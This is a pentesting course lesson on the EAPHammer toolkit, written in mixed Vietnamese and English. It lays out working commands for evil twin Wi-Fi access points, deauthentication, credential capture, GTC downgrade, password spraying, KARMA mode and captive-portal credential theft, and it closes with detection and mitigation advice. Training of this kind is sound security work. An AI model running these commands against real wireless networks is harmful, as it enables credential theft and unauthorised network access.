

> **Prerequisites**: [[04-evil-twin-rogue-radius-peap|04. Evil Twin: Rogue RADIUS + PEAP Hash Capture]] · [[05-eap-downgrade-gtc-cleartext|05. EAP Downgrade]] · [[06-eap-ttls-pap-attack|06. EAP-TTLS/PAP Attack]]
> **Objectives**:
> - Nắm toàn bộ feature set của EAPHammer cho wireless pentesting
> - Master cert-wizard, credential capture, EAP spray, captive portal, và KARMA modes
> - Biết khi nào dùng feature nào dựa trên target environment
> - Build muscle memory cho EAPHammer command patterns

---

## Mục đích & Kiến trúc

**EAPHammer** (by s0lst1c3 / SpecterOps) là all-in-one toolkit cho targeted evil twin attacks against WPA2/WPA3-Enterprise networks. Tool được thiết kế cho full-scope wireless assessments và red team engagements.

**Architecture internals**: EAPHammer là wrapper tích hợp nhiều tools:

| Component | Role |
|-----------|------|
| **hostapd-wpe** (modified) | Core rogue AP + RADIUS server |
| **dnsmasq** | DHCP server cho connected clients |
| **asleap** | LEAP/PEAP hash cracking |
| **hcxpcaptool/hcxdumptool** | PMKID attacks |
| **Responder** | Credential capture trên network sau khi client connect |
| **Python 3.5+** | Glue logic, cert management, output formatting |

**Output format**: Credentials xuất hiện real-time trong console. EAPHammer cũng support structured output formats cho automated pipelines.

---

## Cài đặt & Setup

```bash
# Method 1: apt (Kali)
sudo apt update && sudo apt install eaphammer

# Method 2: from source (latest features)
git clone https://github.com/s0lst1c3/eaphammer.git
cd eaphammer
sudo ./kali-setup

# Verify installation
./eaphammer --help

# Dependencies check
./eaphammer --check-deps
```

> [!tip] Two WiFi Adapters Requirement
> EAPHammer cần interface **KHÔNG** ở monitor mode để tạo AP. Cần adapter riêng cho deauth (monitor mode). Thực tế: 2 USB WiFi adapters — một cho Rogue AP (wlan0), một cho deauth (wlan1 → wlan1mon).

---

## Core Workflow

**Workflow chuẩn cho WPA2-Enterprise assessment:**

**Bước 1 — Generate certificate (chỉ cần làm một lần per engagement)**

```bash
./eaphammer --cert-wizard
```

> **Expected output**: Interactive wizard. Nhập: country (VN), state, city, org (impersonate target company), CN (ví dụ `*.corp.local`). Cert saved vào `certs/` folder.
> **Tip**: CN có thể match target company name → client ít suspicious hơn khi thấy cert.

**Bước 2 — Recon (review từ Lesson 03)**

```bash
sudo airmon-ng start wlan1
sudo airodump-ng wlan1mon
# Ghi: BSSID, Channel, ESSID, AUTH=MGT
```

**Bước 3 — Launch evil twin (chọn auth method dựa trên recon)**

```bash
# PEAP (phổ biến nhất)
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 2 --auth peap --creds

# EAP-TTLS
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 2 --auth ttls --creds

# WPA3-Enterprise (EAP-PWD)
./eaphammer -i wlan0 --bssid <BSSID> --essid <ESSID> --channel <CH> \
    --wpa 3 --auth eap-pwd --creds
```

**Bước 4 — Deauth (terminal riêng)**

```bash
sudo aireplay-ng -0 0 -a <BSSID> wlan1mon
```

**Bước 5 — Collect và crack**

```bash
# Credentials xuất hiện real-time
# NetNTLMv1:
hashcat -m 5500 captured_hash.txt /usr/share/wordlists/rockyou.txt
```

---

## Key Flags & Options

**Core flags:**

| Flag | Ý nghĩa |
|------|---------|
| `-i <iface>` | Interface cho Rogue AP (KHÔNG monitor mode) |
| `--bssid <MAC>` | Spoof BSSID (thường clone từ legit AP) |
| `--essid <NAME>` | SSID của Rogue AP |
| `--channel <N>` | Channel (match target AP) |
| `--wpa <1\|2\|3>` | WPA version |
| `--auth <method>` | EAP method: peap, ttls, eap-pwd, open, wpa-psk |
| `--creds` | Capture credentials mode |

**Attack flags:**

| Flag | Ý nghĩa |
|------|---------|
| `--negotiate <method>` | Force inner EAP method: gtc, mschapv2, pap |
| `--karma` | Enable KARMA mode (respond to all probes) |
| `--known-beacons` | Broadcast list of common SSIDs as beacons |
| `--known-ssids-file <f>` | File chứa SSIDs cho known beacons attack |
| `--autocrack` | Auto-crack captured hashes immediately |
| `--wordlist <f>` | Wordlist cho autocrack |
| `--eap-spray` | Online brute force mode |
| `--user-list <f>` | Username list cho eap-spray |
| `--password <p>` | Single password cho eap-spray |

**Certificate flags:**

| Flag | Ý nghĩa |
|------|---------|
| `--cert-wizard` | Interactive cert generation |
| `--self-signed` | Force use self-signed cert |
| `--ca-cert <f>` | Custom CA cert |
| `--server-cert <f>` | Custom server cert |
| `--private-key <f>` | Custom private key |

**Captive portal flags:**

| Flag | Ý nghĩa |
|------|---------|
| `--captive-portal` | Enable captive portal |
| `--portal-template <dir>` | Custom portal template |
| `--redirect <url>` | Redirect after capture |

---

## Common Patterns

### Pattern 1 — Standard PEAP Evil Twin

```bash
# Full PEAP attack với autocrack:
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> \
    --wpa 2 --auth peap --creds \
    --autocrack --wordlist /usr/share/wordlists/rockyou.txt
```

### Pattern 2 — GTC Downgrade

```bash
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> \
    --auth peap --creds --negotiate gtc
```

### Pattern 3 — EAP Spray (Online Brute Force)

```bash
# Spray single password across many usernames
./eaphammer --eap-spray \
    --interface-pool wlan0 wlan1 wlan2 \
    --essid CorpWifi \
    --password 'Password123!' \
    --user-list /tmp/corp_users.txt

# Spray với multiple passwords (manual loop):
for pass in 'Password1' 'Welcome123' 'Company2024'; do
    ./eaphammer --eap-spray -i wlan0 --essid CorpWifi \
        --password "$pass" --user-list /tmp/users.txt
done
```

### Pattern 4 — Captive Portal (Open Network Social Engineering)

```bash
# Tạo open AP với captive portal → steal credentials via web form
./eaphammer -i wlan0 --essid "FreeCorpWifi" --auth open \
    --captive-portal

# Custom portal template:
./eaphammer -i wlan0 --essid "CorpGuest" --auth open \
    --captive-portal --portal-template /opt/custom_portal/
```

### Pattern 5 — KARMA Mode

```bash
# Respond to all probe requests (xem Lesson 08):
./eaphammer -i wlan0 --auth peap --creds --karma
./eaphammer -i wlan0 --auth peap --creds --known-beacons \
    --known-ssids-file /usr/share/eaphammer/wordlists/known_ssids.txt
```

---

## Command Cheatsheet

**Setup**

```bash
sudo apt install eaphammer
./eaphammer --cert-wizard                   # Generate cert (một lần)
./eaphammer --check-deps                    # Verify dependencies
```

**Evil Twin Attacks**

```bash
# PEAP
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> --wpa 2 --auth peap --creds

# TTLS
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> --wpa 2 --auth ttls --creds

# GTC downgrade
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> --auth peap --creds --negotiate gtc

# Autocrack
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> --auth peap --creds \
    --autocrack --wordlist /usr/share/wordlists/rockyou.txt
```

**EAP Spray**

```bash
./eaphammer --eap-spray \
    --interface-pool wlan0 \
    --essid <ESSID> \
    --password '<PASSWORD>' \
    --user-list <USER_FILE>
```

**KARMA**

```bash
./eaphammer -i wlan0 --auth peap --creds --karma
./eaphammer -i wlan0 --auth peap --creds --known-beacons \
    --known-ssids-file /usr/share/eaphammer/wordlists/known_ssids.txt
```

**Cert Management**

```bash
./eaphammer --cert-wizard                   # Interactive
./eaphammer --cert-wizard --country VN --state HCM --org CorpName --cn "*.corp.local"
```

---

## Cây quyết định



---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Duplicate SSID / Rogue AP**: WIDS phát hiện AP không trong approved list phát beacon với corporate SSID.
> **Multiple SSIDs từ một BSSID**: EAPHammer KARMA mode → một card phát nhiều SSIDs — impossible với legit AP.
> **Deauth flood**: aireplay-ng deauth → 802.11 management frame anomaly → WIDS alert.
> **Certificate error logs**: Client logs (Windows Event Viewer, MDM) ghi certificate validation failure.
> **RADIUS auth anomaly**: Clients ngừng authenticate qua legit RADIUS → monitoring alert.

> [!note] Mitigation
> - **Pin server certificate** trong WiFi profile (Group Policy cho Windows, MDM cho mobile)
> - **WIPS deployment**: Cisco Adaptive WIPS, Aruba RAPIds — automated rogue AP containment
> - **802.11w Protected Management Frames** — bắt buộc trong WPA3, optional trong WPA2
> - **Audit WiFi profiles** trên tất cả corporate devices — đảm bảo inner method được enforce
> - **Network segmentation**: Wireless clients không direct access AD — buộc qua firewall

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 14 ngày đầu.

**Drill 1 — Core command flags từ memory**
Mục tiêu: gõ full eaphammer command với -i, --bssid, --essid, --channel, --auth, --creds mà không lookup.

```bash
./eaphammer -i wlan0 --bssid <B> --essid <E> --channel <C> --wpa 2 --auth peap --creds
```

Luyện cho đến khi: gõ trong dưới 10 giây.

**Drill 2 — Choose correct --auth flag**
Mục tiêu: từ Wireshark EAP type → chọn --auth flag ngay.

```
EAP Type 25 → --auth peap
EAP Type 21 → --auth ttls
EAP Type 52 → --auth eap-pwd
```

Luyện cho đến khi: mapping là automatic, không cần suy nghĩ.

**Drill 3 — EAP Spray workflow**
Mục tiêu: prepare username list → launch spray → monitor results.

```bash
# Prepare
cat /tmp/users.txt  # jdoe, jsmith, mjohnson...
# Spray
./eaphammer --eap-spray -i wlan0 --essid <E> \
    --password 'Password1' --user-list /tmp/users.txt
# Monitor output for [+] Found credentials
```

Luyện cho đến khi: spray workflow hoàn tất trong dưới 3 phút setup time.

---

## Kết hợp với Tool khác

```
EAPHammer → hashcat -m 5500 (crack NetNTLMv1)
EAPHammer (autocrack) → hashcat local rig → real-time credential add
EAPHammer --captive-portal → BeEF XSS hook
EAPHammer + aireplay-ng → deauth + evil twin combo
EAPHammer + airhammer → spray + evil twin dual attack
EAPHammer credentials → nxc/impacket → lateral movement (Lesson 10)
EAPHammer + Responder → capture additional creds from connected clients
```

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | Dedicated EAPHammer module |
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | EAPHammer trong context |
| Local VM | Kali + victim client + hostapd-wpe | Test tất cả EAPHammer modes |
| HTB Academy | **Attacking WPA3** | EAPHammer WPA3/EAP-PWD mode |

---

## Field Manual Entry

> [!abstract] EAPHammer — Quick Reference
> **Standard flow**: `./eaphammer --cert-wizard` (một lần) → `-i wlan0 --bssid <B> --essid <E> --channel <C> --auth peap --creds`
> **GTC**: Thêm `--negotiate gtc` → cleartext password
> **Spray**: `./eaphammer --eap-spray -i wlan0 --essid <E> --password <P> --user-list <F>`
> **KARMA**: Thêm `--karma` → respond to all probes
> **Auth flag**: Type 25 → peap | Type 21 → ttls | Type 52 → eap-pwd
> **Ref**: [[07-eaphammer-toolkit|07. EAPHammer Toolkit Mastery]]
